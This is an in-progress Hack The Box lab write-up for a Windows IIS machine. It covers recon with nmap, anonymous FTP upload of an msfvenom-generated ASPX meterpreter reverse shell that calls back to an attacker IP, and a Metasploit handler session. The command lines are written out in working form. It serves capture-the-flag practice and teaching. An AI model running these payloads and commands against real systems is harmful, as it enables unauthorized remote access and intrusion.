








---
tags:
  - box
platform: HTB
os: Windows
difficulty:
date_completed:
mitre_attack: T1190, T1105
status: in-progress
---

## Target

**IP Address:** 10.129.121.54

## Recon

### Port Scan

#Nmap

```bash
sudo nmap -T4 -sV -sC -p- -oA targetScan 10.129.121.54
```

#### Findings

| Port | Service | Version |
|---|---|---|
| 21 | ftp | Microsoft ftpd |
| 80 | http | Microsoft IIS httpd 7.5 |

After running the nmap scan I found that port 21 and 80 are open. A Microsoft FTP server is running on the machine on port 21 as well as a Microsoft IIS page on port 80.



The home page of the IIS page is just the default IIS7 page.



FTP allows anonymous login, as seen in the nmap scan as well as the directory listing from the scripts running. I was able to get logged in myself as well.



## Enumeration

#MsfVenom #MetaSploit

*Creating the reverse meterpreter shell*
```bash
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.98 LPORT=4242 -f aspx > reverse.aspx
```

*Setting up the Metasploit Meterpreter listener*
```msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.98
set lport 4242
set ExitOnSession false
exploit -j
```

## Exploitation

I was able to create a reverse meterpreter shell using msfvenom and putting it into an aspx file type in order to run it on the IIS server, uploaded over the anonymous FTP access found above.



After putting the reverse meterpreter file onto the server I was able to browse to it on the web browser and get it to run on the server this way.



Though the screen is blank, I can see in Metasploit that the shell has been run, sent, and received.



After this connection started I was able to connect to the session and run commands to get info on the machine.

#MetaSploit

```msfconsole
sessions -i 1
sysinfo
```



**System Info**
- Computer: Devel
- OS: Windows 7 (6.1 Build 7600)
- Architecture: x86
- System Language: el_GR
- Domain: HTB
- Logged On Users: 2
- Meterpreter: x86/windows



## Privilege Escalation

<!-- Not reached yet in these notes - exploit suggester output above is the next lead to follow up on -->

## Flags

**User/Root:** not yet captured in these notes

## Lessons Learned

Anonymous FTP write access paired with a website served from the same directory (IIS webroot) is a very fast path to code execution - upload a payload in a format the web server will execute (aspx, php, etc.) and browse to it directly.
